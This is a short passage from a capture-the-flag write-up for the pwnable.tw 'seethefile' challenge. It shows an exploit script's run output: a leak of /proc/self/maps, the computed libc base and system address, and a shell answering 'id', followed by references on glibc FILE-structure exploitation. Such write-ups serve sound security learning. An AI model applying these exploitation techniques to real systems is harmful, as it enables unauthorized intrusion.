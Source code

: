 Let's test if it works:

```bash
$ python3 exp.py remote
[+] Opening connection to chall.pwnable.tw on port 10200: Done
[*] [x] leaked content of /proc/self/maps
[*] [x] retrieved libc_base: 0xf7570000 from leaked /proc/self/maps
[*] [x] calculated address of system function: 0xf75aa940
[*] Switching to interactive mode
$ id
uid=1000(seethefile) gid=1000(seethefile) groups=1000(seethefile)
```

[Full exploit](exp.py)


## References:
- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/
- https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf (lock explained, attack via _IO_file_close_it)
- https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L342